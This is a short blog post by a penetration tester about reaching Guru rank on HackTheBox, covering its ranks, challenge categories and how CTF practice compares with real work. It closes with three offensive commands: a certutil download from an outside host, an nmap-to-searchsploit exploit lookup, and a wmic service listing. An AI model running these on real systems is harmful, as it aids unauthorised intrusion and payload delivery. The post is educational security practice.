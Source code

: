 ```yaml
---
layout:     post
title:      "HackTheBox (HTB) thoughts as Guru Rank"
#subtitle:   "Pentesting"
date:       2018-08-02
author:     "Tech"
header-img: "img/htb_final.png"
tags:
    - RedTeam
    - Pentesting
    - Programming
    - Linux
---
```


![](img/htb_final.png)

# HackTheBox (HTB) thoughts as Guru Rank :

Here are my random thoughts on HackTheBox, which will be known as HTB for the rest of the post.

##Background:
I completed the Offensive Security Certified Professional (OSCP) last year spring time. I shortly followed that by getting SecurityTube Linux Assembly Expert (SLAE), which started my prepration for Offensive Security Certified Expert (OSCE). During my SLAE course, I signed up for HTB as every other twitter post was about it. I solved two challenges and never logged back in. A few months go by and after drowning in OSCE prep, I needed a change of paste from living in shellcode all day. Under those circumstance, my official HTB journey began..

---

## Breaking Down HackTheBox

There are 7 ranks depending on completion of active machines and challenges:

- Noob >= 0%
- Script Kiddie > 5%
- Hacker > 20%
- Pro Hacker > 45%
- Elite Hacker > 70%
- Guru > 90% (My Rank)
- Omniscient = 100%

There are only 20 total machines that are active at one time, every week the oldest machine gets dropped and a new one gets added. There are a total of 57 challenges that cover the topics below:

- Reversing
- Crypto
- Stego
- Pwn
- Web
- Misc
- Forensics
- Mobile

---

## Omniscient?!

From start to end, my journey started with Noob rank (as everyone) and in a short three weeks ended with GURU rank. With that, I completed all 20/20 machines and 41 of the 57 challenges. I thought about going for omniscient, 16 challenges would only need to be completed.

I decided to move on from HTB at this point. Calculating my time, experience gain from the 16 left challenges and ROI on real life usefulness... Guru is alright with me.

I'm currently rank 60th place out of 50,000 registered members worldwide (as of JUNE 2018) & 6th Place for United States.

## My thoughts..

There's something that needs to be said, HTB vs the Real-World.

As a OSCP holder and a full time red team / penetration tester, some of the machines and challenges on HTB are out of scope to real life situations. It's awesome to learn new tricks and techniques as someone in the field, but none of this is going to help me on the daily really.

Someone on HTB once said:

> "That being said I wouldn't ever use a person's CTF History as an indicator of skill. It would be used for a willingness to learn outside of work hours which is probably more important."

These are not ALL going to be applicable in the real world but they are important to the creative thinking and other aspects of what pen-testing involves and therefore still worth your time to do them.

##Overall
This field were all in is everlearning. I believe HackTheBox is a great platform for all types of skill levels and even OSCP holders. They have a wide varity of machines for all levels of skill. I personally learn quite a few things and would like to leave some commands here..

```
 cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
 ```
 -- Getting code execution with certutil (used here to download file)

 ```
 nmap -p- -sV -oX new.xml 10.10.10.10; searchsploit --nmap new.xml
 ```
 -- Checks all results in Nmap's XML output with service version

 ```
 cmd.exe /c wmic service where started=true get name, startname
 ```
 -- List all started services only.
